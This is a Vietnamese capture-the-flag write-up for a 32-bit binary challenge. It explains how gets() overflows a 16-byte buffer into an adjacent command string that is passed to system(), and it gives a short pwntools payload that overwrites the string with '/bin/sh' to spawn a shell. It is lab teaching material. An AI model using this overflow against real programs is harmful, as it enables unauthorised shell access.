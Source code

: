 # Bufferoverflow-overwrite-command

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Bufferoverflow-overwrite-command: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3e7651a0dfe9c28f279a4af51940336dc92be421, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ở đây có 1 hàm ta cần quan tâm đến do ở main gọi luôn đến hàm này:

![vun.png](images/vun.png)

# 2. Ý tưởng

Đầu tiên, câu lệnh:

```
strcpy(command, "echo Bye!");
```
Dùng để copy chuỗi `echo Bye!` vào biến `command`

Sau đó, chương trình gọi hàm `gets(s);` đến gán giá trị cho biến `s`

Cuối cùng trả về hàm thực thi `system(command);`

Ở đây ta có hàm `gets()` luôn gây lỗi buffer overflow do không kiểm soát được số lượng ký tự đầu vào

Mà địa chỉ các biến như sau:

```
char s[16]; // [esp+0h] [ebp-28h]
char command[10]; // [esp+10h] [ebp-18h]
```

Có thể thấy địa chỉ biến `command` nằm ngay sau biến `s` nên ta có thể lợi dụng lỗi buffer overflow để ghi đè vào biến `command` để sau khi chương trình return sẽ retrun đến câu lệnh system với `command` như ta muốn

# 3. Khai thác

Ok như đã biết, biến `s` cách `command` 16 bytes nên chuỗi khai thác sẽ là:

+ 16 bytes đầu là địa chỉ biến `s`
+ các bytes còn lại là đị chỉ của `command`

Ở đây mình sẽ ghi đè `command` bằng `/bin/sh` để thực thi `system('/bin/sh')`

```
/bin/sh là đường dẫn tới một trình thông dịch (interpreter) shell trên hệ điều hành Unix và các hệ điều hành tương thích. Shell là một chương trình dòng lệnh môi trường (command-line interface) cho phép người dùng tương tác với hệ thống máy tính bằng cách gõ lệnh.
```

Mã khai thác ở đây:

```
payload = b'a'*16 + b'/bin/sh'
p.sendline(payload)
```

![flag.png](images/flag.png)
